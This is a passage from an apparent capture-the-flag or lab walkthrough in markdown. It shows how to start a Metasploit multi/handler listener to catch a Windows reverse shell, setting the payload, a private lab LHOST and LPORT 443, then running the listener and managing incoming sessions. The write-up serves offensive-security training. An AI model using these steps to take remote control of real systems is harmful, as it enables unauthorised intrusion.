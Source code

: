 Understanding this syntax is essential for accurate payload creation and delivery.



## 📡 Task 10: Metasploit multi/handler

The Metasploit `multi/handler` module is used to catch reverse shells—especially staged ones like Meterpreter.

---

### 🧭 Starting the Handler

1. Launch Metasploit:
```bash
sudo msfconsole -q
```

2. Use the handler module:
```bash
use exploit/multi/handler
```

3. Set the payload, LHOST, and LPORT:
```bash
set PAYLOAD windows/x64/shell/reverse_tcp
set LHOST 10.11.12.223
set LPORT 443
```

#### 📸 Screenshot: Handler Setup in Metasploit
![multi/handler setup](https://github.com/user-attachments/assets/70ae0a6b-151a-465d-ac61-a9fb83f50fb1)

---

### 🚀 Running the Listener

Start the listener in background mode:
```bash
exploit -j
```

- `-j` runs it as a background job.

#### 📸 Screenshot: Starting the Handler
![Handler Execution](https://github.com/user-attachments/assets/a9637113-4182-4bf2-9bda-76655820c7e3)

---

### 🖥 Session Management

When a shell connects back:
```bash
sessions
sessions 1
```
